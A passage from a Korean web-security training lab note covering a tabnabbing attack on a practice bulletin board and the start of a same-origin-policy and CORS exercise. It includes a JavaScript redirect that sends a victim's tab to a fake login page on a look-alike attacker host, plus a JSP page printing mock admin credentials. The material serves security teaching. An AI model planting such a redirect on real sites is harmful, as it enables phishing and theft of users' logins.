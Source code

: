        

    2. 해커 서버에 tabnabbing.js를 다음과 같은 내용으로 만들어 놓아야 한다.(희생자가 영상을 보고 있는 동안 hacker서버로 접속하도록 하는 js)

       ```javascript
       setTimeout(function() {	this.location='http://openeq.com:8181/openeg/tabnabbing/hacker/fakeLogin.html';	}, 5000);
       ```

       

    3. video 태그가 동작되는 웹브라우저(예 크롬)을 호스트머신에서 띄워 openeg 게시판을 관리자 계정으로 접속한다

       

    4. '재밌는 영상2'라는 제목의 글을 클릭해서 영상을 보고 있는 동안 해커 서버로 접속되고 관리자는 이것을 느끼지 못하고 로그인을 해서 자신의 정보를 탈취 당하고 만다.



**어떻게 방어??**

* html 신규 태그에도 필터링을 적용하라



*****



###### 2. cors

* 서로 다른 도메인(사이트)간 자원 공유를 허용

* 특정 조건을 만족할 경우 동일출처정책(SOP)에 의한 제한을 완화하는데 사용



*****



먼저 SOP를 이해하는 실습

1. 메모장을 관리자 권한으로 연다

   

2. C:\Windows\System32\drivers\etc 밑의 hosts 파일을 열어 다음과 같이 추가한뒤 저장한다

   ```text
   127.0.0.1 localhost
   192.168.0.100 openeg.com
   192.168.0.100 openeq.com
   192.168.0.100 insecure.com
   ```

   



3. WebContent>cors>insecure>에 getUserInfo.jsp를 다음과 같이 작성후 크롬 웹브라우저에서 http://insecure.com:8181/openeg/cors/insecure/getUserInfo.jsp를 요청해 보면 admin 정보가 출력된다.

   ```jsp
   <%@page import="java.util.*"%>
   <%@page import="java.io.*"%>
   <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
   <%	out.println("<h1>insecure.com의 관리자 정보: id=admin pw=insecure</h1>");%> 
   ```
